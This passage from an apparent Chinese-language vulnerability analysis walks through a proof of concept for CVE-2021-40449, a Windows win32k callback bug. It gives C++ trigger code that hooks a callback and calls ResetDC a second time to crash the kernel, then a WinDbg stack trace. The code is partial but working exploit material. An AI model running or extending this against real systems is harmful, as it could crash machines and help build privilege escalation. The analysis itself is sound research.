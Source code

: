 ```
        // 触发漏洞的核心是第二次在回调函数里再次调用ResetDC
        HDC tempHdc = ResetDC(expVal::hdc, NULL);
        cout << "[+] Returned From Second ResetDC" << endl;
        for (int i = 1; i < 16; i++)
        {
            Sleep(1000);
            printf("[+] Counting down...: %d\n", 16 - i);
        }
        Sleep(1000);
    }
 
    return ret;
}

```

*   使用`CreateDC(NULL, printerName, NULL, NULL)`为此打印机驱动创建设备环境

```
int main()
{   
    BOOL retStatus = FALSE;
    retStatus = HookUsermodeCallbackEntry();
    if (!retStatus)
    {
        cout << "[-] Failed To Hook Callback" << endl;
        return 0;
    }
 
    expVal::hdc = CreateDCA(NULL, expVal::pPrinterName, NULL, NULL);
    if (!expVal::hdc)
    {
        cout << "[-] Failed To Create DC" << endl;
        return 0;
    }
 
    cout << "[+] CallbackHook Start" << endl;
    ResetDC(expVal::hdc, NULL);
    cout << "[+] CallbackHook Finish" << endl;
    cout << "[+] Time to BSOD" << endl;
    return 0;
}

```

POC 调试：

 

windbg 中在`win32kfull!GreResetDCInternal`和 `win32kbase!hdcOpenDCW`函数下断点，第一次运行到 hdcOpenDCW 函数时，栈帧如下图所示，可以清楚的知道 ResetDC 如何从 Ring3 到 Ring0

```
# Child-SP          RetAddr               Call Site
00 ffffb707`86be9938 fffff53a`bdd39ff2     win32kbase!hdcOpenDCW
01 ffffb707`86be9940 fffff53a`bdd39e66     win32kfull!GreResetDCInternal+0x11a
02 ffffb707`86be9a10 fffff801`0be74285     win32kfull!NtGdiResetDC+0xd6
03 ffffb707`86be9a90 00007ffe`8c636f04     nt!KiSystemServiceCopyEnd+0x25
04 00000096`578ff5f8 00007ffe`8cf497bf     win32u!NtGdiResetDC+0x14
05 00000096`578ff600 00007ffe`8e40dc71     gdi32full!ResetDCWInternal+0x16b
06 00000096`578ff700 00007ff7`134b1573     GDI32!ResetDCW+0x31
07 00000096`578ff730 00000269`632d9060     CallbackHell!main+0x63 [D:\CVE\CVE-2021-40449\Poc\CallbackHell\CallbackHell.cpp @ 236]
08 00000096`578ff738 00000000`00000000     0x00000269`632d9060

```
